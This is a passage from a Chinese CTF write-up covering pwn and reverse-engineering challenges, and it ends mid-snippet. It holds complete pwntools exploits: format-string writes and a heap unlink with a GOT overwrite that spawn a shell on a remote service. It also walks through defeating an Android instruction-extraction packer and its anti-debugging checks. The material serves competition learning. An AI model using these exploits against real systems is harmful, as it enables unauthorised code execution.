io.read_until('Protego')
io.writeline('2')
io.read_until('Protego')
io.writeline('2')
io.read_until('Protego')
io.writeline('2')

pl1 = "%134525292c%4$n"
pl2 = "%134520971c%12$n"
io.writeline(pl1)
io.writeline(pl2)

io.read_until('Exit\n')
io.writeline('getshell')

io.interact()

```

## pwn300
	heap vuln -- unlink

编辑订单的时候，读取输入没做限制，导致溢出到下一块，因为有指向`heap`的地址，可以构造堆块，绕过`unlink`校验。 之后泄露地址，改`got`就可以了。
```
from pwn import *

#context.log_level = 'debug'
chunk_list = 0x08049D80
free_got = 0x08049D18
write_got = 0x08049D2C
read_got  = 0x08049D14

context.update(os='linux', arch='i386')
p = remote('58.213.63.30',61112)
#p = remote('192.168.121.133',10002)
#p = process('./pwn3-test')


flag = 0
def leak(addr):
	global flag
	data = "A" * 0xc + p32(chunk_list-0xc) + p32(addr)
	if(flag == 0):
		edit('0',data)
		flag = 1
	else:
		edit2('0',data)
	res = ""
	show('1')
	res = p.recv()
	#print "\n"+res+"\n"
	print "leaking: %#x ---> %s" % (addr, res[0:4].encode('hex'))
	return res[0:4]

def buy(num):
	p.recvuntil('5. Exit\n')
	p.send('1')
	p.recvuntil('want :')
	p.send(num)

def show(index):
	p.recvuntil('5. Exit\n')
	p.send('2')
	p.recvuntil('num:')
	p.send(index)

def edit(index,content):
	p.recvuntil('5. Exit\n')
	p.send('3')
	p.recvuntil('num:')
	p.send(index)
	p.recvuntil('content:')
	p.send(content)

def edit2(index,content):
	p.send('3')
	p.recvuntil('num:')
	p.send(index)
	p.recvuntil('content:')
	p.send(content)

def delete(index):
	p.recvuntil('5. Exit\n')
	p.send('4')
	p.recvuntil('num:')
	p.send(index)

buy('128')		#0
buy('128')		#1
buy('128')		#2
buy('128')		#3

edit('3',"/bin/sh")

#1st chunk + fake chunk
payload = ""
payload += p32(0) + p32(0x89) + p32(chunk_list-0xc) + p32(chunk_list-0x8)
payload += "A"*(0x80-4*4)
#2nd chunk
payload += p32(0x80) + p32(0x88)
edit('0',payload)
# get pointer
delete('1')

#raw_input('$-leak')
pwn_elf = ELF('./pwn3-test')
d = DynELF(leak, elf=pwn_elf)
sys_addr = d.lookup('system', 'libc')
print("system addr: %#x" % sys_addr)

payload2 = "A"*12 + p32(chunk_list-0xc) + p32(free_got)
edit2('0',payload2)
edit2('1',p32(sys_addr))
delete('3')
p.interactive()
p.close()

```

## re
####re100
	拖进IDA找打字符串窗口


    定位到判断部分


	通过前俩个信号量等待函数，定位到两个字符串加密部分
   
   

	通过分析可以知道，其分别是对字符串的奇数和偶数加密。然后在与真正的加密后的key对比
    写出C代码：

    	#include <stdio.h>

		unsigned char key[] = {188,238,127,79,63,83,250,248,216,232,94,206,112,204,58,194,63,75};//18

		int main(void)
		{
		unsigned char tmp[19] = {0};
		for(int i = 0;i<18;i++)
		{
			if(i%2 == 0)//偶数
			{
				if( 65<key[i] && key[i]<76 )
				{
					tmp[i] = key[i]-20;
				}
				tmp[i] = key[i]^23;
				tmp[i] = (tmp[i]>>5) | (tmp[i]<<3);
				tmp[i] = tmp[i]-10;

			}
			else//奇数
			{
				if(key[i]<109)
				{
					tmp[i] = key[i]-9;
				}
				else
				{
					tmp[i] = key[i];
				}
				tmp[i] = tmp[i]^36;
				tmp[i] = (tmp[i]<<7) | (tmp[i]>>1);

			}
		}
		printf("%s\n",tmp);
		return 0;
	}
    运行得到flag
   

### re150

程序是mfc写的，找到按钮的处理函数


sub_401d70里面是个des, 对输入name进行加密, des函数sub_4021c0


sub_401f80调整得到加密结果的顺序


sub_401ff0里调用了crypto api的CryptDecrypt解密keyfile里的数据,然后去name的结果比较


keygen代码可以使用私钥调用CryptoEncrypt来计算，或者用私钥导出公钥调用CryptVerifySignature

# re200
下载下来后是个exe，调试发现是jar文件加了一个exe的wrapper，运行时临时目录里可以找到原始jar文件。


打开jar文件分析,加了混淆，输入数据先判断长度


然后和一组数据异或


查表替换


接着反射调用process,getResult


但是反射调用的这个对象会被动态替换，所以直接跟进去会进到一个假的算法中


真的对象的类源码就在程序中，不过经过了加密，解密的过程是在上述类的构造方法中


解密之后就是真实的源码

执行动态编译和替换的流程


动态编译的类加密存在程序中，通过自定义classloader加载进来


上面几个类是用来动态编译的，其中还有源码的解密算法，所以只要扣出这几个类，拿到解密算法就可以解密源码。解密算法在com.cx.trustme.b.A类中，com.cx.trustme.b.A的数据也被加密，加密过程


扣出com.cx.trustme.b.A类的class文件分析后解密源码

### re400

这次SCTF我负责出逆向的题目，原计划打算一道300一道400的，不过300那道逆向用了大量的混淆，连我自己都没有好的办法分析出原始指令，为了不坑大家，所以就只放了一道400。

另外最坑的是400这道题我在发题目的时候发错了，忘记把函数的指令抽取出来，导致解这道题的直接越了一大步。。刚写WriteUp的时候才发现，，，
下面是具体的解题步骤。首先拿到Apk后运行可以看到输入错误会提示wrong。


接着反编译apk 可以看到在MyApplication中调用了dy这个so。另外还有一个ProxyActivity这个Activity直接start了MainActivity。至于为什么这么做做过加固的同学应该知道。

ProxyActivity:


主要的东西在MainActivity中，可以看到这个Activity注册了大量的native函数。

这些函数是我出题的时候用来混淆大家的，因为其中只有一个是验证函数，为了不让大家发现，就声明了这么多无用的native函数。然后看下面，可以看到按钮点击后调用了checkCode函数，不过这个函数是空的，不过这里也只是我原本想放的版本是这样，比赛时放出去的版本忘记把这个函数的指令抽取出去了，导致直接可以看到代码，所以就降低了难度，我写的一个lib也完全没用了。。。(好伤心) 不过这里我还是按照我原本出题的思路来解题吧。

这里用到的指令抽取也就是现在市面上主流的第二代app加固技术，出题的时候本来想再加一个第一代加固也就是dex隐藏的，不过想了想现在通用脱壳机这么多，也就没有必要了。
动态恢复指令的过程主要在dy这个lib中也就是在Apllication中加载的lib中。Ida打开这个lib，这个lib没有做加固，可以直接在.init_array段发现调用了sub_1DB4这个函数。

```cpp
int sub_1DB4()
{
  int v0; // r0@1
  int v1; // r0@1
  int result; // r0@1
  char v3; // [sp+10h] [bp-58h]@1
  char v4; // [sp+11h] [bp-57h]@1
  char v5; // [sp+12h] [bp-56h]@1
  char v6; // [sp+13h] [bp-55h]@1
  int v7; // [sp+14h] [bp-54h]@1
  char s; // [sp+18h] [bp-50h]@1
  char v9; // [sp+19h] [bp-4Fh]@1
  char v10; // [sp+1Ah] [bp-4Eh]@1
  char v11; // [sp+1Bh] [bp-4Dh]@1
  char v12; // [sp+1Ch] [bp-4Ch]@1
  char v13; // [sp+1Dh] [bp-4Bh]@1
  char v14; // [sp+1Eh] [bp-4Ah]@1
  char v15; // [sp+1Fh] [bp-49h]@1
  char v16; // [sp+20h] [bp-48h]@1
  char v17; // [sp+21h] [bp-47h]@1
  char v18; // [sp+22h] [bp-46h]@1
  char v19; // [sp+23h] [bp-45h]@1
  char v20; // [sp+24h] [bp-44h]@1
  char v21; // [sp+25h] [bp-43h]@1
  char v22; // [sp+26h] [bp-42h]@1
  char v23; // [sp+28h] [bp-40h]@1
  char v24; // [sp+29h] [bp-3Fh]@1
  char v25; // [sp+2Ah] [bp-3Eh]@1
  char v26; // [sp+2Bh] [bp-3Dh]@1
  char v27; // [sp+2Ch] [bp-3Ch]@1
  char v28; // [sp+2Dh] [bp-3Bh]@1
  char v29; // [sp+2Eh] [bp-3Ah]@1
  char v30; // [sp+2Fh] [bp-39h]@1
  char v31; // [sp+30h] [bp-38h]@1
  char v32; // [sp+31h] [bp-37h]@1
  char v33; // [sp+32h] [bp-36h]@1
  char v34; // [sp+33h] [bp-35h]@1
  char v35; // [sp+34h] [bp-34h]@1
  char v36; // [sp+35h] [bp-33h]@1
  char v37; // [sp+36h] [bp-32h]@1
  char v38; // [sp+37h] [bp-31h]@1
  char v39; // [sp+38h] [bp-30h]@1
  char v40; // [sp+39h] [bp-2Fh]@1
  char v41; // [sp+3Ah] [bp-2Eh]@1
  char v42; // [sp+3Bh] [bp-2Dh]@1
  char v43; // [sp+3Ch] [bp-2Ch]@1
  char v44; // [sp+3Dh] [bp-2Bh]@1
  char v45; // [sp+3Eh] [bp-2Ah]@1
  char v46; // [sp+3Fh] [bp-29h]@1
  char v47; // [sp+40h] [bp-28h]@1
  char v48; // [sp+41h] [bp-27h]@1
  char v49; // [sp+42h] [bp-26h]@1
  char v50; // [sp+43h] [bp-25h]@1
  char v51; // [sp+44h] [bp-24h]@1
  char v52; // [sp+45h] [bp-23h]@1
  char v53; // [sp+46h] [bp-22h]@1
  char v54; // [sp+47h] [bp-21h]@1
  int v55; // [sp+4Ch] [bp-1Ch]@1

  v55 = _stack_chk_guard;
  v7 = 0;
  v3 = 126;
  v4 = -34;
  v5 = 14;
  v6 = 110;
  LOWORD(v7) = -474;
  BYTE2(v7) = 60;
  memset(&s, 0, 0x10u);
  s = 110;
  v9 = 38;
  v10 = -2;
  v11 = 2;
  v12 = -18;
  v13 = -122;
  v14 = -66;
  v15 = 126;
  v16 = 38;
  v17 = -18;
  v18 = -118;
  v19 = 126;
  v20 = -50;
  v21 = -122;
  v22 = -122;
  memset(&v23, 0, 0x21u);
  v26 = 100;
  v27 = 110;
  v23 = -78;
  v28 = 38;
  v24 = 18;
  v29 = -2;
  v25 = -60;
  v30 = 34;
  v42 = -60;
  v43 = -60;
  v31 = -18;
  v44 = -118;
  v32 = 6;
  v45 = 126;
  v33 = -34;
  v46 = -50;
  v34 = 46;
  v47 = -122;
  v48 = -122;
  v35 = -42;
  v49 = -70;
  v36 = -118;
  v50 = 14;
  v37 = 126;
  v51 = 30;
  v38 = -50;
  v52 = -18;
  v39 = -122;
  v40 = -122;
  v53 = -114;
  v41 = 66;
  v54 = 102;
  sub_420C(&v3);
  sub_420C(&s);
  sub_420C(&v23);
  (*(void (**)(void))(*(_DWORD *)android::AndroidRuntime::mJavaVM + 16))();
  v0 = getpid();
  sub_31F4((int)&unk_90D8, v0, &v3, (int)&s, (int)sub_40DC, (int)sub_4928);
  v1 = getpid();
  sub_31F4((int)&unk_9004, v1, &v3, (int)&v23, (int)sub_40E0, (int)sub_426C);
  result = 0;
  if ( v55 != _stack_chk_guard )
    _stack_chk_fail(0);
  return result;
}
```
这里一大堆变量其实是一个char数组，然后使用sub_420C解密这个数组，得到一个字符串。解密函数如下：
```cpp
signed int __fastcall sub_420C(const char *a1)
{
  const char *v1; // r4@1
  signed int result; // r0@1
  char *i; // r1@1

  v1 = a1;
  result = strlen(a1);
  for ( i = (char *)v1; i - v1 < result; ++i )
    *i = ((((unsigned __int8)*i ^ 0x48) & 0x40) >> 5) | 2 * ((*i ^ 0x48) & 8) | (((unsigned __int8)*i ^ 0x48u) << 24 >> 31) | (((unsigned __int8)*i ^ 0x48) << 7) | 32 * ((*i ^ 0x48) & 2) | 8 * ((*i ^ 0x48) & 4) | ((((unsigned __int8)*i ^ 0x48) & 0x10) >> 1) | ((((unsigned __int8)*i ^ 0x48) & 0x20) >> 3);
  return result;
}
```
sub_31F4这个函数就是Hook libdvm.so中的函数，这里hook了两个函数，一个用来绕过程序启动时dalvik的验证，一个就是索引类的函数也就是dvmResolveClass函数。具体的东西大家可以阅读Android源代码，这里就不详细的讲了。
在系统调用dvmResolveCalss函数时，会进入到我们的hook函数，这里会判断引用的类是不是com/sycsec/Apkpt/MainActivity，如果是就调用sub_45F8函数。
```cpp
int __fastcall sub_4928(int a1, int a2, int a3)
{
  int v3; // r7@1
  int v4; // ST00_4@1
  int v5; // ST04_4@1
  int (__fastcall *v6)(int, int, int); // r6@1
  int v7; // r6@1
  int result; // r0@3
  char s; // [sp+Ch] [bp-3Ch]@1
  char v10; // [sp+Dh] [bp-3Bh]@1
  char v11; // [sp+Eh] [bp-3Ah]@1
  char v12; // [sp+Fh] [bp-39h]@1
  char v13; // [sp+10h] [bp-38h]@1
  char v14; // [sp+11h] [bp-37h]@1
  char v15; // [sp+12h] [bp-36h]@1
  char v16; // [sp+13h] [bp-35h]@1
  char v17; // [sp+14h] [bp-34h]@1
  char v18; // [sp+15h] [bp-33h]@1
  char v19; // [sp+16h] [bp-32h]@1
  char v20; // [sp+17h] [bp-31h]@1
  char v21; // [sp+18h] [bp-30h]@1
  char v22; // [sp+19h] [bp-2Fh]@1
  char v23; // [sp+1Ah] [bp-2Eh]@1
  char v24; // [sp+1Bh] [bp-2Dh]@1
  char v25; // [sp+1Ch] [bp-2Ch]@1
  char v26; // [sp+1Dh] [bp-2Bh]@1
  char v27; // [sp+1Eh] [bp-2Ah]@1
  char v28; // [sp+1Fh] [bp-29h]@1
  char v29; // [sp+20h] [bp-28h]@1
  char v30; // [sp+21h] [bp-27h]@1
  char v31; // [sp+22h] [bp-26h]@1
  char v32; // [sp+23h] [bp-25h]@1
  char v33; // [sp+24h] [bp-24h]@1
  char v34; // [sp+25h] [bp-23h]@1
  char v35; // [sp+26h] [bp-22h]@1
  char v36; // [sp+27h] [bp-21h]@1
  char v37; // [sp+28h] [bp-20h]@1
  char v38; // [sp+29h] [bp-1Fh]@1
  char v39; // [sp+2Ah] [bp-1Eh]@1
  int v40; // [sp+2Ch] [bp-1Ch]@1

  v3 = a1;
  v4 = a2;
  v5 = a3;
  v40 = _stack_chk_guard;
  memset(&s, 0, 0x20u);
  s = 122;
  v11 = -66;
  v14 = -122;
  v17 = -122;
  v10 = -114;
  v12 = -2;
  v16 = -114;
  v18 = -18;
  v19 = -114;
  v32 = -114;
  v15 = -42;
  v13 = -68;
  v20 = -68;
  v21 = -50;
  v26 = -68;
  v28 = -50;
  v35 = 38;
  v22 = 70;
  v24 = 70;
  v27 = -6;
  v30 = 62;
  v38 = -42;
  v25 = 102;
  v33 = 102;
  v37 = 102;
  v29 = -34;
  v31 = -54;
  v34 = -34;
  v36 = -34;
  v23 = -98;
  v39 = -108;
  sub_420C(&s);
  v6 = (int (__fastcall *)(int, int, int))dword_9118;
  sub_33BC((int)&unk_90D8);
  v7 = v6(v3, v4, v5);
  if ( !strcmp(*(const char **)(v7 + 24), &s) )
    sub_45F8(v7);
  sub_3440((int)&unk_90D8);
  result = v7;
  if ( v40 != _stack_chk_guard )
    _stack_chk_fail(v7);
  return result;
}
```
sub_45F8函数代码比较长，这里就不贴了，主要展示关键的部分，也就是解密指令文件。
```cpp
 sub_420C(&format);                            // 解密rc4 key
  result = sub_420C(&v64);
  v3 = *(_DWORD *)(v26 + 104);
  while ( v1 < v3 )
  {
    v25 = 48 * v1;
    result = strcmp(*(const char **)(*(_DWORD *)(v26 + 108) + 48 * v1 + 16), &s);
    v4 = result;
    if ( !result )
    {
      v5 = **(_DWORD **)(v26 + 40);
      mprotect(
        (void *)(*(_DWORD *)(v5 + 44) - 40),
        (((__PAIR__(*(_DWORD *)(*(_DWORD *)v5 + 12) << 20, *(_DWORD *)(*(_DWORD *)v5 + 12) << 20)
         - __PAIR__((*(_DWORD *)(*(_DWORD *)v5 + 12) << 20) - 1, 1)) >> 32)
       + (*(_DWORD *)(*(_DWORD *)v5 + 12) >> 12)) << 12,
        3);
      v6 = sub_4460(dword_90D4);                // 得到apk路径
      sub_3030((int)v34, v6);                   // 解压apk
      if ( sub_3044(v34) )
      {
        v7 = strlen(&v35);
        v8 = strlen(&v40);
        s2 = (char *)calloc(v7 + v8 + 1, 1u);
        sprintf(s2, &format, &v35);
        v9 = sub_3058((int)v34);                // 得到加密后的指令文件
        v10 = calloc(1u, v9);
        if ( sub_30B4((int)v34, (int)s2, (int)v10, v9) )
        {
          sub_43B0(v10, &v64, v9);              // 解密文件
```
sub_43B0函数就是解密指令文件也就是assets目录下的data文件，熟悉一般的加解密算法的话可以看出这是一个rc4的加密，获取解密的指令的话就可以用前面解密的rc4 key直接解密了。将获得的指令还原到原始的dex中，然后再反编译就可以看到checkCode函数了。


这一步完成后就可以知道调用的native函数了，继续分析libdx.so。不过libdx.so这个so很明显是加密过的，直接静态打开完全无法分析。


要分析libdx.so的话只有通过动态调试。不过在libdx中我添加了两个反调试，需要在libdx加载时下断。在.init_array段有一个反调试，是传统的检测TracePid的。


过了这个反调试后再JNI_OnLoad函数中还有一个反调试，是检测Ida调试端口是否打开的。如下：

这里的字符串和libdy.so中一样经过加密了，只是加密的Key不一样。这两个反调试很容易过，这里就不讲了。在JNI_OnLoad中剩下的一些操作就是获取apk路径，然后解密和解析libdz.so。解析工作主要就是解析libdz.so这个文件的大小，其中的指令大小，偏移等。最后调用函数注册native函数。
这个libdy.so是我参考以前在论坛中看到的一个开源的字节码解释器，在它的基础上添加了更多的指令支持以及修复了一些BUG。指令解析工作的函数是sub_33E8。
这个函数非常的难分析，赛后有几个队伍的选手和我交流，他们也都基本卡在最后这一步，这次只有KeenSec和CLG两个队伍解出了这个题目，不过这两个队伍都没有进入前10名，我也就没能看到他们解这道题的思路。
因为这个字节码解释器是参考Dalvik虚拟机写的，Dalvik虚拟机在执行指令时不是使用switch的结构，而是一种叫GCC的Threaded Code技术。在C文件中，可以使用"&&"获得函数或者函数内部标签的地址，使用goto语句就可以直接跳转到这些地址。每条指令对应一个标签，标签标示的是解释程序的开始，在每条指令的解释程序结尾都有取指动作，可以取得下一条要指令的指令，根据指令使用threaded机制goto到相应的标签处执行解释程序。Dalvik维护了一个静态数组，用来存储各个字节码解释程序对应的标签地址。如下：
```cpp
#define DEFINE_GOTO_TABLE(_name) \
    static const void* _name[kNumPackedOpcodes] = {                      \
        /* BEGIN(libdex-goto-table); GENERATED AUTOMATICALLY BY opcode-gen */ \
        H(OP_NOP),                                                            \
        H(OP_MOVE),                                                           \
        H(OP_MOVE_FROM16),                                                    \
        H(OP_MOVE_16),                                                        \
        H(OP_MOVE_WIDE),                                                      \
        H(OP_GOTO_16),                                                        \
        H(OP_MOVE_WIDE_16),                                                   \
        H(OP_MOVE_OBJECT),                                                    \
        H(OP_MOVE_OBJECT_FROM16),                                             \
        H(OP_MOVE_OBJECT_16),                                                 \
        H(OP_MOVE_RESULT),                                                    \
        H(OP_MOVE_RESULT_WIDE),                                               \
        H(OP_MOVE_RESULT_OBJECT),                                             \
        H(OP_MOVE_EXCEPTION),                                                 \
        H(OP_RETURN_VOID),                                                    \
        H(OP_DIV_INT),                                                        \
        H(OP_RETURN_WIDE),                                                    \
        H(OP_RETURN_OBJECT),                                                  \
        H(OP_ADD_INT_2ADDR),                                                  \
        H(OP_CONST_16),                                                       \
        H(OP_DIV_INT_2ADDR),                                                  \
```
这里的H宏定义如下：
```
# define H(_op)             &&op_##_op
```
这个宏中的"# #"被称为连接符，在预处理时，会被替换成相应的OpCode。比如H(OP_NOP)在预处理后会被替换成&&op_OP_NOP。根据前面的描述，&&op_OP_NOP是取标签op_OP_NOP的地址。在Dalvik中还有一个宏定义，如下：
```
# define HANDLE_OPCODE(_op) op_##_op:
```
这里HANDLE_OPCODE宏定义会被包含在解释程序的首部，所以可以用来直接跳转到解释程序。介绍了这么多，我们来具体调试下这个程序。如下图，sub_33E8的开始首先根据libdz.so中定义的参数类型获得参数，然后将参数保存到参数寄存器中，也就是方法声明中寄存器个数的末尾寄存器。关于这个具体可以参见smali语法等相关信息。

设置参数寄存器的值：


完成这些初始化的工作后，会将pc指针指向指令数组，然后跳转到相应的解释程序。


这里第一个指令的值是0x29，跟踪到第一个解释程序。

这里解释程序的功能主要是将源寄存器也就是参数寄存器中的值取出来保存到目的寄存器，参数寄存器中保存的是传入的Double型数据，这种类型的数据需要两个寄存器来保存。完成这些工作后，获取下一条指令，然后跳转到对应的解释程序。
后面的步骤就是慢慢分析这些解释程序了，可以看到当指令很多的时候这样的分析是一个工作量巨大的事情，我猜测完成题目那两个队伍是用了其他的方法。首先这个解释器是参考的Dalvik写的，所以其中的解释程序也和Dalvik一样，唯一不同的是OpCode的数组的顺序不同，也就是指令对应的解释程序和Dalvik不同，事实上在出这道题的时候我就是先用java写了算法函数，然后从编译后的classes.dex文件中扣出了指令部分，最后再替换这些指令中的OpCode。所以如果对Dalvik熟悉的话可以直接找出我替换的顺序，然后还原回去，然后就能反编译得到smali代码。smali代码如下：
```smali
    move-wide/from16 v0, p1

    double-to-int v12, v0

    .line 19
    .local v12, "i":I
    const v13, 0x3b9aca00

    if-ge v12, v13, :cond_0

    .line 20
    const/4 v13, 0x0

    .line 55
    :goto_0
    return v13

    .line 21
    :cond_0
    rem-int/lit8 v2, v12, 0xa

    .line 22
    .local v2, "a0":I
    rem-int/lit8 v13, v12, 0x64

    div-int/lit8 v3, v13, 0xa

    .line 23
    .local v3, "a1":I
    rem-int/lit16 v13, v12, 0x3e8

    div-int/lit8 v4, v13, 0x64

    .line 24
    .local v4, "a2":I
    rem-int/lit16 v13, v12, 0x2710

    div-int/lit16 v5, v13, 0x3e8

    .line 25
    .local v5, "a3":I
    const v13, 0x186a0

    rem-int v13, v12, v13

    div-int/lit16 v6, v13, 0x2710

    .line 26
    .local v6, "a4":I
    const v13, 0xf4240

    rem-int v13, v12, v13

    const v14, 0x186a0

    div-int v7, v13, v14

    .line 27
    .local v7, "a5":I
    const v13, 0x989680

    rem-int v13, v12, v13

    const v14, 0xf4240

    div-int v8, v13, v14

    .line 28
    .local v8, "a6":I
    const v13, 0x5f5e100

    rem-int v13, v12, v13

    const v14, 0x989680

    div-int v9, v13, v14

    .line 29
    .local v9, "a7":I
    const v13, 0x3b9aca00

    rem-int v13, v12, v13

    const v14, 0x5f5e100

    div-int v10, v13, v14

    .line 30
    .local v10, "a8":I
    const v13, 0x3b9aca00

    div-int v11, v12, v13

    .line 31
    .local v11, "a9":I
    mul-int/lit16 v13, v11, 0x2710

    mul-int/lit16 v14, v10, 0x3e8

    add-int/2addr v13, v14

    mul-int/lit8 v14, v9, 0x64

    add-int/2addr v13, v14

    mul-int/lit8 v14, v8, 0xa

    add-int/2addr v13, v14

    add-int/2addr v13, v7

    mul-int/lit8 v14, v6, 0xa

    add-int/2addr v14, v5

    div-int/2addr v13, v14

    mul-int/lit8 v14, v4, 0x64

    mul-int/lit8 v15, v3, 0xa

    add-int/2addr v14, v15

    add-int/2addr v14, v2

    if-eq v13, v14, :cond_1

    .line 33
    const/4 v13, 0x0

    goto :goto_0

    .line 35
    :cond_1
    mul-int/lit16 v13, v11, 0x2710

    mul-int/lit16 v14, v10, 0x3e8

    add-int/2addr v13, v14

    mul-int/lit8 v14, v9, 0x64

    add-int/2addr v13, v14

    mul-int/lit8 v14, v8, 0xa

    add-int/2addr v13, v14

    add-int/2addr v13, v7

    mul-int/lit8 v14, v6, 0xa

    add-int/2addr v14, v5

    rem-int/2addr v13, v14

    mul-int/lit8 v14, v7, 0xa

    add-int/2addr v14, v2

    if-eq v13, v14, :cond_2

    .line 37
    const/4 v13, 0x0

    goto :goto_0

    .line 39
    :cond_2
    add-int v13, v9, v8

    if-eq v13, v10, :cond_3

    .line 41
    const/4 v13, 0x0

    goto :goto_0

    .line 43
    :cond_3
    if-ne v8, v5, :cond_4

    if-ne v8, v4, :cond_4

    const/4 v13, 0x2

    if-eq v4, v13, :cond_5

    .line 45
    :cond_4
    const/4 v13, 0x0

    goto/16 :goto_0

    .line 47
    :cond_5
    const/4 v13, 0x4

    if-eq v7, v13, :cond_6

    .line 49
    const/4 v13, 0x0

    goto/16 :goto_0

    .line 51
    :cond_6
    mul-int/lit8 v13, v7, 0x2

    if-ne v10, v13, :cond_7

    if-eq v2, v10, :cond_8

    .line 53
    :cond_7
    const/4 v13, 0x0

    goto/16 :goto_0

    .line 55
    :cond_8
    const/4 v13, 0x1

    goto/16 :goto_0
```

这段代码比较长，但是还是很好分析的，主要是将传入的Double型转成int型，然后判断数据是否大于1000000000，如果不大于就直接返回，如果大于则取出每一位做一些条件判断，这段代码转成java如下：
```java
        int i = (int)j;
        if ( i < 1000000000)
            return false;
        int a0 = i % 10;
        int a1 = (i % 100) / 10;
        int a2 = (i % 1000) / 100;
        int a3 = (i % 10000) / 1000;
        int a4 = (i % 100000) / 10000;
        int a5 = (i % 1000000) / 100000;
        int a6 = (i % 10000000) / 1000000;
        int a7 = (i % 100000000) / 10000000;
